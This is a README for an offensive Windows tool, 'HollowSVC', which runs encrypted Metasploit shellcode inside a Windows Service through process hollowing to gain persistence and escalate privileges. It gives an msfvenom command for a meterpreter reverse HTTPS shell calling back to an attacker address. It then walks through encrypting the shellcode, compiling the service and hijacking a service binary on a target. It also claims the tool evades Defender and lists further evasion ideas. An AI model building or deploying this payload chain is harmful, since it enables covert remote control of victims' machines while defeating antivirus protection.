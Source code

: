 <p align="center">
    <img src="/img/8-EoupSza0CCIElrl.png" alt="Logo" width="350" height="350">
</p>
This program is a Windows Service that utilizes the 'process hollowing' technique to run shellcode. It requires the ROT-encrypted shellcode that the user will create using the HollowCrypt program. I created this because there were moments when I needed a custom and straightforward way to run Metasploit shellcode on a Windows Service for persistence/privilege escalation, and using common tools would trigger the AV over my binaries... 


## How to use it

First, we need to create our shellcode:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.147 LPORT=443 EXITFUNC=thread -f csharp
```

Then, edit the HollowCrypt source code , compile and execute:
```
HollowCrypt.exe
```

After that, replace the encrypted shellcode in the HollowSVC source code. 
Now  compile the service in the arch of your target, setup your listener, hijack the binary/path in the target and run!

## POC
Running service with path to HollowSVC executable:
<p align="center">
  <img src="/img/legitsvc2.png" alt="legitsvc2" width="350" height="350">
</p>

Meterpreter retrieved:
<p align="center">
  <img src="/img/legitsvc3.png" alt="legitsvc3" width="700" height="150">
</p>

Defender FUD, you will still need to implemente OPSEC and be careful when launching meterpreter modules:
<p align="center">
  <img src="/img/legitsvc4.png" alt="legitsvc4" width="500" height="350">
</p>
And remember, there is always ways to improve this! (Use HTTPS cert with meterpreter, load STDAPI afterwards receiving the callback, use dynamic shellcode encoding ,custom shellcode, etc)
